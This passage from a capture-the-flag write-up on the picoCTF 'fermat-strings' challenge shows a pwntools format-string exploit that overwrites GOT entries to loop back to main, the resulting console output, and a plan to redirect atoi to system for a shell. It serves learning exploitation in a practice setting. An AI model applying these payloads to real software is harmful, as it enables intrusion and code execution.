 ```python
io = start()
loop_main_fmt, loop_main_address = fmtstr_split(fmt_first_offset, {exe.got["pow"]: exe.symbols["main"]}, numbwritten = 23)
send_format(io, loop_main_fmt, loop_main_address)
io.interactive()
```

`pwntools` takes care of the formatting, but notice how we needed to inform it of the number of bytes written by `printf` before arriving to the `%n`. We provided `23` to account for the string "`Calculating for A: 1___`".

Output:

```console
┌──(user@kali)-[/media/sf_CTFs/pico/fermat-strings]
└─$ python3 poc.py
[*] '/media/sf_CTFs/pico/fermat-strings/chall'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to mars.picoctf.net on port 31929: Done
[*] Sending:
    A:
    b'1___%2080c%43$lln%9c%44$hhn'
    B:
    00000000  31 5f 5f 5f  5f 5f 5f 5f  40 10 60 00  00 00 00 00  │1___│____│@·`·│····│
    00000010  42 10 60 00  00 00 00 00                            │B·`·│····│
    00000018
[*] Received:
    00000000  20 20 20 20  20 20 20 20  20 20 20 20  20 20 20 20  │    │    │    │    │
    *
    00000810  20 20 20 20  20 20 20 20  20 20 20 20  20 20 20 d8  │    │    │    │   ·│
    00000820  20 20 20 20  20 20 20 20  d2                        │    │    │·│
    00000829
[*] Switching to interactive mode
Welcome to Fermat\'s Last Theorem as a service
A: $ 1
B: $ 1
Calculating for A: 1 and B: 1
Welcome to Fermat\'s Last Theorem as a service
A: $ 2
B: $ 2
Calculating for A: 2 and B: 2
Welcome to Fermat\'s Last Theorem as a service
```

As we can see, instead of performing the calculation, we keep jumping back to `main`.


At this point we have a leak allowing us to calculate the LibC base, and we have a loop allowing us to exploit the format string vulnerability again. The last part of the exploit is to overwrite some other function address with the address of `system`. We'll override `atoi`. This means that if we provide `/bin/sh` as one of the inputs, when the program calls `a = atoi(A)` it will actually be calling `system("/bin/sh")` - giving us a shell.
